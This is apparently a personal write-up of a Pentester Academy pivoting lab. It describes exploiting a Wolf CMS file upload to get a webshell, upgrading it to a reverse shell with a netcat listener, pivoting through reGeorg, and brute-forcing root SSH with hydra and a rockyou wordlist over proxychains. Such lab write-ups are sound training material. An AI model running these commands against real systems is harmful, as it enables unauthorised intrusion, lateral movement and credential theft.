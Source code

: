 ```yaml
---
title: Pivoting VIII
date: 2022-06-06 12:00:00 -500
categories: [Pentesting,Pivoting]
tags: [Pentester Academy,Metasploit]
---
```


# Pivoting VIII

# Steps taken:
#### 1. Check your network configuration:

![](/assets/img/1630.png)

#### 2. Scan the network of the target machine:

![](/assets/img/1631.png)

#### 3. Check vulnerabilities of the webpage:
```bash
nmap -Pn --script=vuln 192.219.188.3
```
#### 4. Check all the available directories of the webpage using dirbuster:

		- Note that this is to figure out where to login with the admin credentials found via phishing.
	
![](/assets/img/1632.png)

	- Nevermind! This is the link:

![](/assets/img/1633.png)

	- Note that have you not have the link given to you in the instructions, you will need to use dirbuster (or something like it) to figure out what this link to login into the webpage cause even if you have the credentials acquired via phishing, it still doesn't matter.

#### 5. Login with the credentials provided:

![](/assets/img/1634.png)

#### 6. Check exploits for "Wolf CMS":

![](/assets/img/1635.png)

	- There are a lot actually!
	- Wolf CMS 0.8.2 - Arbitrary File Upload (Metasploit)
	- The instructions for this is ate Wolf CMS - Arbitrary File Upload / Execution

#### 7. There is a file page in the website:

![](/assets/img/1636.png)

	- In this case, try to use an "Arbitrary File Upload/Execution" exploit!

#### 8. Check the Wolf CMS version:

![](/assets/img/1637.png)

		- This version is vulnerable to the chosen exploit above!

![](/assets/img/1638.png)

	- This is taken from the exploit.

#### 9. Through the use dirbuster, we figure out where the uploaded files land, which in this case is the webshell:

![](/assets/img/1639.png)

#### 10. Interacting with the webshell:

![](/assets/img/1640.png)

#### 11. Upgrading webshell to reverse shell:

		- Set up a listener on the local shell with netcat:

```bash
nc -lvnp 8080
```
		- Now, execute the "php-reverse-shell.php". Note that this is a modified one and tailored to the port and IP address appropriate in this use.

- Executing it:

![](/assets/img/1641.png)

- Outcome:

![](/assets/img/1642.png)

	- Works!

#### 12. Now, find the flag!
```bash
find / -name *flag*
```

![](/assets/img/1643.png)

![](/assets/img/1644.png)

**Note: If you lose the reverse shell, just restart firefox to be able to execute the php reverse shell in the web server again.**

#### 13. Escalating Privilege: Find SUID files
```bash
find / -perm -u=s -type f 2>/dev/null
```

![](/assets/img/1645.png)

#### 14. Get the internal network:

![](/assets/img/1646.png)

		- The internal network resides at 192.33.196.0/24

### Since you don't have root privileges, you can't create a pivot in this compromised machine!

#### 15. Create a pivot using reGeorg

		- Finish up the writeup tomorrow!
```bash
python reGeorgSocks.py -p 9050 -u http://{target-ip}/public/tunnel.php
```
		- Do this AFTER uploading the php file on the webserver.
		- Note that creation of this pivot is only possible because of the "upload" capabilities of the webpage.

		- Is there any other way to create a pivot had it not been possible to upload any file in this webpage given that you only have the lowest privilege?

#### 16. Now, you can do NMAP + Hydra + SSH via proxyhains.
```bash
proxychains nmap -sT -Pn {target-ip-internal}
```
```bash
proxychains hydra {target-ip} ssh -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt -f -V
```
```bash
proxychains ssh root@{target-ip}
```
		- Then enter the password you cracked with Hydra!

